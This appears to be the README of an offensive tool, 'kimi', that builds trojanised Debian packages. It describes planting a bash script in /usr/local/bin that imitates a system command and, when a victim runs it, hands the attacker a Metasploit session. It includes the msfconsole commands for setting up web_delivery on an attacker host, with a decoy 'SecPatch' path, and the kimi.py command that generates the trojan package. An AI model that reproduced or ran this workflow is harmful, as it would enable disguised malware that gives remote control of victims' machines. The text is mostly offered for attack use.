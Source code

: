 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Plus points & Usage & Tested On :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    Bash file injects and acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt (lame :P i know) 
    
    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)

# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/main_banner.png)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting.png)

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
   Twitter : @bofheaded
   Wrote while listening jams of Vidya VOX ;) 
